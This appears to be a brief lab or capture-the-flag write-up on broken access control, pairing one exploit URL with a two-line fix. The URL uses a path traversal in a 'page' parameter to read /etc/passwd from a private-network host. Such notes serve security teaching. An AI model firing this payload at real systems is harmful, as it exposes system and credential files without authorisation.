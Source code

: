# [Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

## Exploit

http://10.0.2.5/index.php?page=../../../../../../../etc/passwd

## Solution

- Prevent Path traversal
- Sanitize user input
